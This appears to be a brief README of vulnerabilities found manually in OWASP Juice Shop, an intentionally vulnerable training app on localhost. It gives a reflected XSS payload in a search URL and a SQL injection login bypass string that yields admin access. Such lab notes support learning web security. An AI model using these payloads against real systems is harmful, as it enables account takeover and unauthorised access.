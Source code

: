 # Owasp_juice_shop

Vulns found manually exploiring the application (with no tools) 

XSS: 
```
http://127.0.0.1:3000/#/search?q=hello%22%3E%3Cimg%2Fsrc%3Dx%20onerror%3Dalert(document.domain)%3E
```

SQLI Auth bypass
```
' or 1=1-- -
```
On username field. Logs into admin account.
`url: http://127.0.0.1:3000/#/login`



